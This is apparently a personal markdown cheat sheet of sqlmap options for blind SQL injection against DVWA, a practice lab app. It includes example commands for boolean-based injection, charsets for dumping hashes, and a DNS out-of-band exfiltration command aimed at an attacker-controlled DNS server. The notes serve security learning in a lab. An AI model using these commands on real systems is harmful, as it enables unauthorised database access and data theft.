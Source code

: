 # SQLMap

## Boolean-Based

## Time-Based

--time-sec=10

### Enumeration

--first=FIRSTCHAR   First query output word character to retrieve  
--last=LASTCHAR     Last query output word character to retrieve

### Page comparison

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "" --random-agent -p id --technique=B --string="User ID exists in the database." --not-string="User ID is MISSING from the database."
```

--regexp=REGEXP     Regexp to match when query is evaluated to True
--code=CODE         HTTP code to match when query is evaluated to True
--smart             Perform thorough tests only if positive heuristic(s)
--text-only         Compare pages based only on the textual content
--titles            Compare pages based only on their titles

### Bruteforce

For dumping hashes

```
--charset="1234567890abcdef"
```

```
--charset="1234567890ABCDEF"
```

```
--charset="1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
```

### Frequency Analysis

Brute force:
These options can be used to run brute force checks

--common-tables     Check existence of common tables
--common-columns    Check existence of common columns
--common-files      Check existence of common files

--safe-url=SAFEURL  URL address to visit frequently during testing
--safe-freq=SAFE..  Regular requests between visits to a safe URL


### Speed

  Optimization:
These options can be used to optimize the performance of sqlmap

-o                  Turn on all optimization switches
--predict-output    Predict common queries output
--keep-alive        Use persistent HTTP(s) connections
--null-connection   Retrieve page length without actual HTTP response body
--threads=THREADS   Max number of concurrent HTTP(s) requests (default 1)

### DNS Exfiltration (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap in blind SQLi

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa
```